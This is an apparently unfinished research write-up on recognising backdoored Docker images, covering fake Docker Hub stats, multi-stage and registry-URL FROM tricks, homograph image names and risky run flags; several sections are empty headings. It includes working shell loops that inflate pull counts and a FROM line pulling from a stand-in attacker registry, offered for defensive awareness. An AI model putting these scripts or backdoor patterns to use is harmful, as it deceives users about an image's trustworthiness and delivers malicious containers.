 # (WIP) Research on docker backdooring
Pantelis Roditis (09/07/2020)

For the past x years I've been developing docker containers that can be used in the right `wrong` way to emulate fully functional linux systemsm which is in stark contrast to how docker was meant to be used but anyways.

During this time I have come across a load of different types of suspicious docker containers from both docker hub and github projects.

Just like any other process of cybersecurity apply common logic when you are about to blindly trust an docker image, simply because it can be found on docker hub.

This following document includes research on what you shouldn't trust, the reason and hopefully an example of how it can be abused. This list is in no means complete, it is a documentation of what i look for when inspecting docker images from untrusted sources.


## Docker Hub stats
First and foremost don't trust stats provided by docker hub. The stars and pull requests can be easily manipulated to a huge degree.

If the image you're looking at has suspiciously high numbers of pulls and stars for its perceived reputation then something might be fishy.

In order to manipulate the pull numbers a malicious user could create an extremely small image, kilobytes in size and push it and then make pull requests to increase the number of pull requests. Some of the ways a bad actor can do that

**docker pull**

```sh
name="repo/image"
for i in $(seq 1 1000);do
  docker pull "${name}"
  docker rmi -f "${name}"
done
```


**ab (ApacheBenchmark)**
```sh
name="repo/image"
token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
ab -n 50 -c 10 -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest"
```

**curl**
```sh
for i in $(seq 1 50);do
  token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
  curl -s -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest" >/dev/null
done
```

## The FROM statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

In general it is always a good idea to look for the `FROM` statements and trace them back on docker hub to see if they use official images or not. Some of the  tricks that can be found in `FROM` statements follows.


### Multi-stage builds

A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

### Image with registry part
One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```sh
FROM badregistry.attacker.io:443/repo/backdoor
```

Upon building this image docker will connect to `badregistry.attacker.io:443` and attempt to fetch the image `repo/backdoor`


### Unicode `FROM` image

Pay close attention at the FROM image names as Unicode characters can be used to make it look like it came from a legit repository.

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)


## The RUN statement

## The COPY/ADD statement
Pay close attention to `COPY` commands and more specificaly the `COPY --from=<name|index>`. Remember the multi-stage builds from above? This is where the COPY command may come in handy. 

## The VOLUME statement

## The CMD statement

## The ENTRYPOINT statement

## The entrypoint.sh script

## Package manager repos

## The docker run/create CLI params
Pay close attention at the docker parameters required to run the container. The parameters that usually make me suspicious are:
* `--privileged`
* `--cap_add`
* ``

Keep in mind that the existence of these parameters do not mean that an image is malicious. Many containers require these options to operate properly, apply common logic when you see them
## Refs
* https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet
* https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
